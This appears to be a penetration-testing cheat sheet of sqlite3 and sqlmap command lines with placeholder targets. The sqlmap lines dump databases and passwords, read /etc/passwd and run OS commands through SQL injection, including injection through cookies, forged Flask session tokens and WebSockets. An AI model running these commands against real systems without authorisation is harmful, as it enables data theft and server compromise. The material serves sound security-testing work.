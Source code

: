 ### Table Example

```c
$ sqlite3 <DATABASE>.db ".tables"
$ sqlite3 <DATABASE>.db ".schema <TABLE>"
$ sqlite3 <DATABASE>.db "SELECT * FROM <TABLE>;"
```

## sqlmap

> https://github.com/sqlmapproject/sqlmap

```c
--batch         // don't ask any questions
--current-db    // dumps database
```

```c
$ sqlmap --list-tampers
$ sqlmap -r <FILE>.req --level 5 --risk 3 --threads 10
$ sqlmap -r <FILE>.req --level 5 --risk 3 --tables
$ sqlmap -r <FILE>.req --level 5 --risk 3 --tables -D <DATABASE> --dump
$ sqlmap -r <FILE>.req --level 5 --risk 3 --tables users --dump --threads 10
$ sqlmap -r <FILE>.req -p <ID>
$ sqlmap -r <FILE>.req -p <ID> --dump
$ sqlmap -r <FILE>.req -p <ID> --passwords
$ sqlmap -r <FILE>.req -p <ID> --read-file+/etc/passwd
$ sqlmap -r <FILE>.req -p <ID> --os-cmd=whoami
$ sqlmap -r <FILE>.req  --dbs -D <DATABASE> -T <TABLE> --force-ssl --dump
$ sqlmap -r <FILE>.req  --dbs -D <DATABASE> -T <TABLE> -C id,is_staff,username,password --where "is_staff=1" --force-pivoting -pivot-column id --force-ssl --dump
```

### Using Cookies

```c
$ sqlmap -u 'http://<RHOST>/dashboard.php?search=a' --cookie="PHPSESSID=c35v0sipg7q8cnpiqpeqj42hhq"
```

### Using Flask Token

```c
$ sqlmap http://<RHOST>/ --eval="FROM flask_unsign import session as s; session = s.sign({'uuid': session}, secret='<SECRET_KEY>')" --cookie="session=*" --delay 1 --dump
```

### Using Web Sockets

```c
$ sqlmap --url "ws://<DOMAIN>" --data='{"params":"help","token":"<TOKEN>"}'
```

#### Fix Websocket Errors (sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality)
